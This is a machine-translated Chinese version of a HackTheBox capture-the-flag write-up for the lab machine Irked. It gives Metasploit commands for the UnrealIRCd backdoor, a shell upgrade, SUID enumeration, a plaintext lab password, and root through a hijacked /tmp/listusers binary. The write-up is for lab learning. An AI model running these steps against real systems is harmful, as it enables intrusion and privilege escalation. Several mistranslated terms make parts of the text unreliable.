# HackTheBox 写的很烦

> 原文：<https://infosecwriteups.com/hackthebox-write-up-irked-4f1911ca1511?source=collection_archive---------0----------------------->

*这是该机* [*的特写*](https://www.hackthebox.eu/home/machines/profile/163) *出自*[*HackTheBox*](https://www.hackthebox.eu/)

> 生活只能向后理解，但必须向前看。
> 
> —匿名

# 摘要

Irked 是一台基于 Linux 平台的中等水平的 CTF 型机器。通过利用 IRC 我们获得初始外壳，通过利用 SUID 二进制获得用户和自己的根

> 机器作者: [MrAgent](https://www.hackthebox.eu/home/users/profile/624)
> 机器类型:Linux
> 机器级别:4.4/10



机器地图

# 专有技术

*   Nmap
*   Searchsploit
*   Metasploit

# 吸收技能

*   未实现的漏洞利用
*   [CVE-2010–2075](https://www.cvedetails.com/cve/CVE-2010-2075/)

# 扫描网络

```
$nmap -sC -sV 10.10.10.117
```



man nmap



nmap 结果

网络服务器没有任何有趣的东西。我试了试**牙钻**，但没有发现任何有趣的东西。索引文件里有唯一的表情符号。



IRC 的运行对我们来说很有趣，让我们试着深入了解一下。

使用 Searchsploit 我们发现 **UnrealIRCd** 易受攻击**。在谷歌上搜索这个漏洞时，我发现了一个 Metasploit 模块。**

 [## 3.2.8.1 后门命令执行| Rapid7

### 这个模块利用了一个恶意后门，它被添加到虚幻的 3.2.8.1 IRCD 下载档案。

www.rapid7.com](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) 

搜索结果

# 利用服务器

```
msf >use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 10.10.10.117
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```



使用 MSF 利用漏洞

这给出了外壳，使用 python 我们得到了交互式外壳。

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



低特权外壳

利用 IRC 漏洞我们得到了低权限外壳，搜索 **user.txt** 文件，我发现 **user.txt** 在其他用户文档文件夹中，但是我们没有权限打开该文件。



User.txt 文件位置



**。备份**文件给了我们一些有趣的信息。

> **超级精英 steg 备份 pw**
> 
> **upupdowndownlrbabassss**

所以密码和某种隐写术有关。Steghide 是最常见的使用密码的隐写工具。

试试这个**upupdowndownlrbabassson**irked.jpg 镜像给我们密码。在索引页上。

要安装 steghide:-

```
apt-get install steghide
```



隐藏信息

> 密码:Kab6h+m+bbp2J:HG

# 自己的用户

```
$ su djmardovPassword: Kab6h+m+bbp2J:HG$ cat djmardov/Documents/user.txt
```



User.txt

# 特许升级

[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 

```
$ find / -perm -u=s -type f 2>/dev/null

/tmp/listusers/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

我们找到一个非标准的 Linux 二进制文件`**/usr/bin/viewuser.**`



/usr/bin/viewuser

该应用程序正在执行 **/tmp/listusers。**所以让我们在 listusers 中插入一个 shell，然后再运行一次。



带外壳的列表集



获得根



切换到交互式 shell

# 自己的根



Root.txt

[](https://medium.com/@yashanand155) [## 增量中等

### 写一些很酷的文章，别忘了去看看。

medium.com](https://medium.com/@yashanand155) 

*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮，分享*** *帮助他人！欢迎发表评论*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

## *❤️由[增加到](https://twitter.com/yashanand155)*